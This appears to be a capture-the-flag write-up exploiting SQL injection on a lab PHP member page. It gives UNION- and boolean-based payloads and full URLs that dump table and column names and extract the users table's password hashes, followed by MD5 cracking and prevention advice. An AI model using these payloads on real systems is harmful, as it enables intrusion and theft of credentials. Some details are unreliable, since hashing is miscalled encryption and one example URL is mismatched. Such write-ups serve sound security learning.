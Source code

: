 1 UNION SELECT null, table_name FROM information_schema.tables
http://<ip_address>/index.php?page=member&id=1+UNION+SELECT+null%2C+table_name+FROM+information_schema.tables&Submit=Submit#

1 OR 1=1
1 OR EXISTS (SELECT _ FROM users)
http://<ip_address>/index.php?page=member&id=1+OR+EXISTS+%28SELECT+_+FROM+users+%29%3B+--+&Submit=Submit#

http://<ip_address>/index.php?page=member&id=1+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#
1 UNION SELECT table_name, column_name FROM information_schema.columns

"users" table contains the following columns: user_id, first_name, last_name, town, country, planet, Commentaire, countersign.

1 OR 1=1 UNION SELECT Commentaire, countersign from users
desencriptar con md5 la clave hacer lowercase y encriptar con sha256
Se convierte en "FortyTwo"

# SQL Injection and Cryptographic Challenge Documentation

## Overview

This document provides a comprehensive guide on identifying and exploiting SQL injection vulnerabilities within a web application. Additionally, it outlines a cryptographic challenge involving MD5 hash decryption and SHA256 re-encryption, aimed at enhancing understanding of cryptographic principles and practices.

## Vulnerability Description

SQL injection vulnerabilities occur when an attacker is able to insert or "inject" a SQL query via the input data from the client to the application. This document details various types of SQL injection attacks, including table name disclosure, boolean-based SQL injection, column name disclosure, and data extraction, highlighting the potential for unauthorized access to or manipulation of database information.

## Exploitation

### Discovering Database Tables

- **Payload**: `1 UNION SELECT null, table_name FROM information_schema.tables`
- **Purpose**: This payload is used to list all tables within the database.
- **Example URL**: http://<ip_address>/index.php?page=member&id=1+UNION+SELECT+null%2C+table_name+FROM+information_schema.tables&Submit=Submit#

### Checking for Table Existence

- **Payloads**:
- `1 OR 1=1`: This payload is a basic test to change the query logic to always return true.
- `1 OR EXISTS (SELECT * FROM users)`: This payload checks if the `users` table exists by attempting to select records from it.
- **Example URL**: http://<ip_address>/index.php?page=member&id=1+UNION+SELECT+null%2C+table_name+FROM+information_schema.tables&Submit=Submit#

## Extracting Sensitive Data

- **Payload**: `1 OR 1=1 UNION SELECT Commentaire, countersign from users`
- **Purpose**: This payload extracts sensitive data from the `users` table, specifically the `Commentaire` and `countersign` columns.
- **Details**: The `users` table contains columns such as `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, and `countersign`.

## Cryptographic Challenge

- **Task**: Decrypt the `countersign` column values using MD5, convert the plaintext to lowercase, and then re-encrypt using SHA256.
- **Outcome**: The decrypted and re-encrypted value becomes "FortyTwo".

This document outlines the process of identifying and exploiting SQL injection vulnerabilities to discover database schema information and extract sensitive data. Additionally, it includes a cryptographic challenge that demonstrates the process of decrypting and re-encrypting data using different cryptographic algorithms.

### Discovering Column Names

- **Payload**: `1 UNION SELECT table_name, column_name FROM information_schema.columns`
- **Purpose**: This payload is used to list all columns within the database tables.
- **Example URL**: http://<ip_address>/index.php?page=member&id=1+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#

## Prevention

- **Parameterized Queries**: Use parameterized queries to prevent SQL injection, as they ensure that the input is treated as a data value rather than part of the SQL command.
- **Input Validation**: Implement strict input validation checks to reject suspicious or malformed data.
- **Use of Prepared Statements**: With prepared statements, the SQL query is defined separately from its parameters, minimizing the risk of injection.
- **Employ Stronger Hashing Algorithms**: Replace MD5 with more secure hashing algorithms like SHA-256 to enhance cryptographic security.
- **Regular Security Audits**: Conduct thorough security audits and penetration testing to identify and mitigate vulnerabilities.

## Additional Resources

- [OWASP SQL Injection Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [MD5 Hash Generator and Decrypt](https://md5decrypt.net/en/)
- [OWASP Secure Coding Practices](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/)

This documentation aims to raise awareness about the critical nature of SQL injection vulnerabilities and the importance of cryptographic security in modern web applications. By understanding and applying the outlined prevention techniques, developers and security professionals can significantly enhance the security posture of their applications.

